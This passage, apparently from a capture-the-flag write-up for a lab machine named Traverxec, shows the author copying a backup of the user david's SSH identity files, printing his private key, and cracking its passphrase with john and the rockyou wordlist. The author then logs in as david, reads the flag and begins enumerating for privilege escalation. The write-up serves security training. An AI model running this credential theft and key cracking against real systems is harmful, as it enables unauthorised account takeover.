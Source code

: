 As you can see above there are some very bad news for david as we found his
ssh private key. We copy the tarball to a temporary location, extract it, and
cat our id_rsa file to stdout.
<pre>
www-data@traverxec $ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
www-data@traverxec $ cd /tmp; tar xf backup-ssh-identity-files.tgz
www-data@traverxec $ cat home/david/.ssh/id_rsa; rm -rf backup-ssh-identity-files.tgz home/
</pre>

Looking at our newly acquired ssh key we can see it is password protected, but
we can use john the ripper again to find the password and decrypt the key.
<pre>
debian $ ssh2john id_david > id_david_hash
debian $ john --wordlist=rockyou.txt id_david_hash
...
debian $ ssh-keygen -p -f id_david
Enter old passphrase: hunter
Enter new passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved with the new passphrase.
</pre>

After this we just `ssh` in as `david` and get the flag.
<pre>
debian $ ssh -i id_david david@10.10.10.165
david@traverxec $ cat user.txt
flag_will_be_here
</pre>

## Step 4: Privilege escalation
Using the ssh connection we established above we look around the machine to see
what `david` left on it.

<pre>
david@traverxec $ find /home/david
/home/david
/home/david/.local
/home/david/.local/share
/home/david/.local/share/nano
/home/david/.profile
/home/david/.ssh
/home/david/.ssh/authorized_keys
/home/david/.ssh/id_rsa
/home/david/.ssh/id_rsa.pub
/home/david/public_www
/home/david/public_www/index.html
/home/david/public_www/protected-file-area
/home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
/home/david/public_www/protected-file-area/.htaccess
/home/david/bin
<span style="color:red">/home/david/bin/server-stats.sh</span>
/home/david/bin/server-stats.head
/home/david/.bash_history
/home/david/.bash_logout
/home/david/.bashrc
/home/david/user.txt
</pre>
